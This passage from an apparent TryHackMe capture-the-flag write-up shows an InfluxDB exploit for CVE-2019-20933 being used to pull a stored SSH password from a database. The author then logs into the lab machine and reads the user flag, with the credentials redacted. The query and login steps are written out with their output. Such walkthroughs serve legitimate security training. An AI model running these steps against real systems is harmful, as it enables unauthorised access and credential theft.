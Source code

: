 Ok nice, there is a password. Let's select it:

```
[creds] Insert query (exit to change db): select pw from ssh
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "pw"
                    ],
                    "name": "ssh",
                    "values": [
                        [
                            "2021-05-16T12:00:00Z",
                            REDACTED
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

And we get creds we can SSH with:

``uzJk6Ry98d8C:REDACTED``

7788764472

## Getting User

Remember SSH is on port 2222:

```
kali@kali:~/Desktop/thm/sweettoothinc/InfluxDB-Exploit-CVE-2019-20933$ ssh -p 2222 uzJk6Ry98d8C@10.10.114.8
uzJk6Ry98d8C@10.10.114.8's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
uzJk6Ry98d8C@575d68b41bfa:~$ 
```

And we can print out the user flag:

```
uzJk6Ry98d8C@575d68b41bfa:~$ ls
data  meta.db  user.txt  wal
uzJk6Ry98d8C@575d68b41bfa:~$ cat user.txt
THM{REDACTED}
uzJk6Ry98d8C@575d68b41bfa:~$ 
```
